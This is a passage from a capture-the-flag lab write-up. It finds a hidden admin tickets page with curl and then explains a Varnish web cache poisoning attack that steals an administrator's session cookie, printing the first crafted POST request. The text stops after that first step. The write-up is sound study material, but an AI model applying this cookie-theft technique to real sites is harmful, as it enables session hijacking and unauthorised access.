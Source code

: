 Starting sqlmap in the backgroud    

Looking at the source, we learn about the address of the escalated tab:
```
<nav class="navbar">
    <a href="/home">home</a>
    <a href="/tickets">tickets</a>
    <a href="/escalate">escalate</a>
    <a href="/admin_tickets" class="disabled">tickets(escalated)</a>
```


```bash
curl -b 'session=e619bd1a-4f08-4411-9774-0e4267e7504d' 'http://10.10.11.188/admin_tickets'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/home?err=ACCESS_DENIED">/home?err=ACCESS_DENIED</a>. If not, click the link.
```


## Varnish cache poisoning


This is what the `X-Varnish` header is for According to varnish's documentation  
```
The X-Varnish HTTP header allows you to find the correct log-entries for the transaction. For a cache hit, X-Varnish will contain both the ID of the current request and the ID of the request that populated the cache. It makes debugging Varnish a lot easier
```

After a lot of research and trial and error, I figured out that cache poisonning is possible  
[Port Swigger - web-cache-poisoning](https://portswigger.net/web-security/web-cache-poisoning)   
As we pointed out before the escalate endpoint does not filter out urls that are based on the ip of the local machine, so we can do a cache poisonning attack this way:

- 1 set the link to a random, non existing address in the /static path on the box, as long as it's based on the boxe's ip this won't get filtered out.
- 2 admin goes to the address and the server responds 404, but with a Set-Cookie header for admin.
- 3 that response gets cached by varnish, including the Set-Cookie header with the session cookie
- 4 Finally we GET that address ourselves, and now the varnish cache serves the previously cached response to us, including the admin cookie  

1:
```
POST /escalate HTTP/1.1
Host: 10.10.11.188
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 136
Origin: http://10.10.11.188
Connection: close
Referer: http://10.10.11.188/escalate
Cookie: __hstc=37486847.6174496460614d702b6fac7d5e4b635e.1676462479653.1676462479653.1676462479653.1; hubspotutk=6174496460614d702b6fac7d5e4b635e; __hssrc=1; __hssc=37486847.6.1676462479653; session=b6079287-ba7b-417c-acfa-7f1360c52f91

to=Admin&link=http://10.10.11.188/static/haaaaaa.zoinks&reason=&issue=Getting error while accessing search feature in enterprise platform.
```
